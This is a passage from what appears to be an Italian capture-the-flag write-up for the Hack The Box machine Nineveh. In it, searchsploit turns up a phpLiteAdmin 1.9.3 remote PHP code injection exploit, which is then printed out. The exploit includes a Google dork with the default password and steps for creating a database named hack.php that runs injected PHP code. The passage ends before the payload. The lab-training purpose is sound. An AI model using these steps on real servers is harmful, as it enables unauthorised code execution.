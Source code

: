 Poiché si tratta di un'applicazione pronta all'uso, utilizziamo searchsploit per scoprire se è associata a qualche vulnerabilità.

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit phpLiteAdmin 1.9 
---------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title  |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities| php/webapps/39714.txt
---------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results

```

Perfetto abbiamo una Remote Code Injection, lo scarichiamo e gli diamo un occhiata

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit -m 24044.txt    
  Exploit: PHPLiteAdmin 1.9.3 - Remote PHP Code Injection
      URL: https://www.exploit-db.com/exploits/24044
     Path: /usr/share/exploitdb/exploits/php/webapps/24044.txt
    Codes: OSVDB-89126
 Verified: True
File Type: ASCII text
Copied to: /home/kali/htb/nineveh/24044.txt

┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# cat 24044.txt          
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' =>
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
```